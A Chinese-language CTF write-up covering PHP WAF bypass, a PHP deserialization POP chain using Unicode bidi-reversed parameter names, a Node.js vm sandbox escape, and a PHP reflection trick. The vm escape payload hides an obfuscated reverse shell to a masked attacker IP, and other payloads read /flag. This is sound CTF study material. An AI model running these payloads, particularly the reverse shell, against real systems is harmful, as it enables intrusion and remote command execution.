 
### ezrce
#无参rce 
```php
<?php  
function waf($poc)  
{  
    if(preg_match("/[0-9]|get_defined_vars|getallheaders|next|prev|end|array_reverse|\~|\`|\@|\#|\\$|\%|\^|\&|\*|\（|\）|\-|\=|\+|\{|\[|\]|\}|\:|\'|\"|\,|\<|\.|\>|\/|\?|\\\\/i", $poc)){  
        echo "hacker! you die!<br/>";  
        return "666";  
    }  
    return $poc;  
}
```

使用session_start绕过waf限制

![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20230603120816.png)

### ezpop

```php
<?php  
highlight_file(__FILE__);  
  
class night  
{  
    public $night;  
  
    public function __destruct(){  
        echo $this->night . '哒咩哟';  
    }  
}  
  
class day  
{  
    public $day;  
  
    public function __toString(){  
        echo $this->day->go();  
    }  
  
    public function __call($a, $b){  
        echo $this->day->getFlag();  
    }  
}  
  
  
class light  
{  
    public $light;  
  
    public function __invoke(){  
        echo $this->light->d();  
    }  
}  
  
class dark  
{  
    public $dark;  
  
    public function go(){  
        ($this->dark)();  
    }  
  
    public function getFlag(){  
        include(hacked($this->dark));  
    }  
}  
  
function hacked($s) {  
    if(substr($s, 0,1) == '/'){  
        die('呆jio步');  
    }    $s = preg_replace('/\.\.*/', '.', $s);    $s = urldecode($s);    $s = htmlentities($s, ENT_QUOTES, 'UTF-8');  
    return strip_tags($s);  
}  
  
$un = unserialize($_POST['‮⁦快给我传参⁩⁦pop']); // throw new Exception('seino');


```

复制代码到本地编辑器发现参数里存在unicode反转字符
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20230603131102.png)


```php
<?php
class night{
    public $night;
}
class day{
    public $day;

}
class dark{
    public $dark;
}
class light{
    public $light;
}
$a=new night();
$b=new day();
$c=new dark();
$d=new light();
$e=new day();
$f=new dark();
$a->night=$b;
$b->day=$c;
$c->dark=$d;
$d->light=$e;
$e->day=$f;
$f->dark="php://filter/read=convert.base64-encode/resource=/flag";
echo(serialize($a));
```

传参
`%E2%80%AE%E2%81%A6%E5%BF%AB%E7%BB%99%E6%88%91%E4%BC%A0%E5%8F%82%E2%81%A9%E2%81%A6=<序列化后的数据>`



### Esc4pe_T0_Mong0
#js_jali

*source*
```js
//const { MongoClient } = require("mongodb");
//const client = new MongoClient("mongodb://localhost:27017/");

const vm = require('vm');

const express = require("express");
const bodyParser = require('body-parser');
const app = express();

const isValidCode = (code) => {
    const isLengthValid = code.length < 365;
    const isASCII = /^[\x20-\x7e]+$/.test(code);
    const containsInvalidChars = /[.\[\]{}\s;`'"/\\_<>?:]/.test(code);
    const doesNotContainImport = !code.toLowerCase().includes("import");
    const doesNotContainUnescape = !/%(?:d0|d1|%[89abAB][0-9a-fA-F])/.test(code);

    return (
      isLengthValid &&
      isASCII &&
      !containsInvalidChars &&
      doesNotContainImport &&
      doesNotContainUnescape
    );
};

app.use(bodyParser.json());

app.get('/', function (req, res) {
    res.sendFile( __dirname + "/static/index.html" );
});

app.get('/readfile', function (req, res) {
    res.sendFile( __dirname + "/app.js" );
});

app.get('/exec', (req, res) => {
    const code = req.query.code;
    if (!code) {
        res.status(400).json({ error: 'Code is required.' });
        return;
    }

    if (isValidCode(code)) {
        try {
            const sandbox = {};
            const script = new vm.Script(code);
            const result = script.runInNewContext(sandbox);
            res.json({ result });
        } catch (err) {
            res.status(400).json({ error: err.message });
        }
    } else {
        res.status(400).json({ error: 'you cant bypass my vm best waf!' });
        return;
    }
});

//app.get('/getflag', function (req, res) {
//    todo...
//});

app.listen(3000, () => console.log(`nodeapp listening on http://localhost:3000`));
```

可以看到在沙箱里执行了命令,需要逃逸

---



```js
with(String)with(f=fromCharCode,this)with(constructor)with(constructor(f(r=114,e=101,t=116,117,r,110,32,p=112,r,111,c=99,e,s=115,s))())with(mainModule)with(require(f(c,h=104,105,108,100,95,p,r,111,c,e,s,s)))exec(f(98,97,s,h,32,45,c,32,34,98,97,s,h,32,45,105,32,62,38,32,47,100,e,118,47,t,c,p,47,X,X,46,X,X,X,46,X,X,46,X,X,X,47,X,X,X,X,32,48,62,38,b,34))
```

感觉我的vps长度不够啊,12位ip地址+5位端口

> • with() - 它用于环境对象。它接受一个对象作为参数,并将该对象的属性添加到当前作用域。这就允许代码访问with()语句中的对象的属性,而不使用对象名称。在这个例子中,它用来访问构造函数。
> 
> • fromCharCode() - 它用来从ASCII码生成字符串。在这个例子中,它生成了恶意命令的字符。
> 
> • mainModule 和 require() - 它们用于访问Node.js模块。require()用于加载模块,mainModule指向主模块。
> 
> • constructor - 构造函数,它用来创建新对象。在这个例子中,它用于创建一个新对象,以便使用with()语句。
> 
> • exec() - 它用于执行 shell命令。在这个例子中,它执行了反向Shell命令。
> 
> 总的来说,这段代码主要是利用了JavaScript的 with()语句、fromCharCode()函数来生成命令字符串,然后使用require()和exec()这些Node.js API来执行该命令。通过这样的手法,它试图规避检测和隐藏其真实目的。

后面就靠wp脑补了

```shell
#打开mongodb服务
service mongodb start
#启动!
mongo
#查看数据库
show databases
#可以看到secret库,拿下!
```



### unserialize
php反射
```php
$flag = new getFlag();
$refl = new ReflectionObject($flag);
$pwd = $refl->getProperty("password");
$pwd->setAccessible(true);
$pwd->setValue($flag,"%E2%80%AE%E2%81%A6%20%20%2F%2Fhow%20to%20change%20the%20private%20variables%E2%81%A9%E2%81%A6secret");
$cmd = $refl->getProperty("cmd");
$cmd->setAccessible(true);
$cmd->setValue($flag,"cat /flag");
```


### test
传go的马

### ppp
#原型链污染 
